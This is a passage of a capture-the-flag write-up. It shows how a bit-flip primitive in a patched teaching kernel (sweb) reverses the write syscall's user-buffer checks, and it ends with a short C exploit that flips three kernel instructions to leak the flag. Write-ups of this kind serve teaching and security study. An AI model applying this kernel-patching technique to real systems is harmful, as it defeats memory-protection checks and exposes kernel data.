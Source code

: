 ```cpp
  }
  return num_written;
}
```
The first check in the syscall verifies that the buffer we're writing from is found in userland. This might seem like the end of our adventure, but remember - infinite bit flips mean infinite possibilities. We can simply patch out the jumps like we did before. Here is the relevant assembly instructions at the beginning of the syscall:

```
 ffffffff8010a88a 48 b8 ff        MOV        RAX,0x7fffffffffff
				  ff ff ff 
				  ff 7f 00 00
 ffffffff8010a894 48 39 45 e0     CMP        qword ptr [RBP + local_28],RAX ; local_28 is buffer
 ffffffff8010a898 77 1a           JA         LAB_ffffffff8010a8b4           ; jump if buffer >= USER_BREAK
 ffffffff8010a89a 48 8b 55 e0     MOV        RDX,qword ptr [RBP + local_28]
 ffffffff8010a89e 48 8b 45 d8     MOV        RAX,qword ptr [RBP + local_30]
 ffffffff8010a8a2 48 01 c2        ADD        RDX,RAX
 ffffffff8010a8a5 48 b8 00        MOV        RAX,0x800000000000
				  00 00 00 
				  00 80 00 00
 ffffffff8010a8af 48 39 c2        CMP        RDX,RAX
 ffffffff8010a8b2 76 0a           JBE        LAB_ffffffff8010a8be           ; jump if buffer + size < USER_BREAK
```
You can see a pair of jumps that we can switch around using bitflips. The first, at ``0xffffffff8010a898``, will check if the buffer is beyond the userland memory space and jump to the exit if it is. We can switch it to only jump if buffer < USER_BREAK (opcode 77 to 76, ``JA`` -> ``JBE``). Then for the second one, at ``0xffffffff8010a8b2``, we do the same but in reverse, switch it from ``JBE`` to ``JA``. This will make it that it will only exit the write if the buffer actually is in user memory, exactly the _opposite of its initial intention_.

Now, we chain all those together and write our exploit:

```c
#include "stdio.h"
#include "nonstd.h"
#include "sched.h"

int main(int argc, char** argv)
{
	char *p_flag = (char *)0xFFFFFFFF80132f25;

	char *p_instr_to_flip = (char *)0xFFFFFFFF8010a748; // check if already flipped
	flipBit(p_instr_to_flip, 0);

	p_instr_to_flip = (char *)0xFFFFFFFF8010a898; // check if buffer in userspace
	flipBit(p_instr_to_flip, 0);

	p_instr_to_flip = (char *)0xFFFFFFFF8010a8b2; // check if buffer end in userspace
	flipBit(p_instr_to_flip, 0);

	write(1, p_flag, 0x30);

	return 0;
}
```

You can find a fork of sweb with the CTF patches applied and the exploit written [right over here](https://github.com/Costinteo/sweb), if you want to run it yourself.
